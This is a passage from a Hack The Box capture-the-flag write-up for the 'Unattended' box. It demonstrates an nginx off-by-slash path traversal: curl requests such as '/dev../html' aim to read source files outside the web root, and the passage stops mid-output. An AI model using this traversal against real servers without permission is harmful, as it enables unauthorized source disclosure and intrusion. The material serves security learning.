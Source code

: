 ![](/images/hackthebox/unattended/8.png)
<hr>
## Nginx off-by-slash
<br> When I checked [`wappalyzer`](https://www.wappalyzer.com/) results I saw that it identified the web server as `nginx` and that was weird because we saw Apache's default page. Also when I went to `https://www.nestedflanders.htb/dev` I got a redirection to `https://www.nestedflanders.htb/dev/` (It added a slash `/`). 
```
root@kali:~/Desktop/HTB/boxes/unattended# curl -k https://www.nestedflanders.htb/dev
<html>
<head><title>301 Moved Permanently</title></head>
<body bgcolor="white">
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.10.3</center>
</body>
</html>
```

```
root@kali:~/Desktop/HTB/boxes/unattended# curl -k https://www.nestedflanders.htb/dev/
dev site has been moved to his own server
```
<br> As demonstrated in [this document](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf) there can be a vulnerability because of this. I gave it a try by adding `..` after `dev`:
```
root@kali:~/Desktop/HTB/boxes/unattended# curl -k https://www.nestedflanders.htb/dev../
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.10.3</center>
</body>
</html>
```
<br> We got `403` maybe because we are out of  `html` directory, I added `/html/index.php` and I successfully got the source of the index page :
```
root@kali:~/Desktop/HTB/boxes/unattended# curl -k https://www.nestedflanders.htb/dev../html
<html>
<head><title>301 Moved Permanently</title></head>
<body bgcolor="white">
```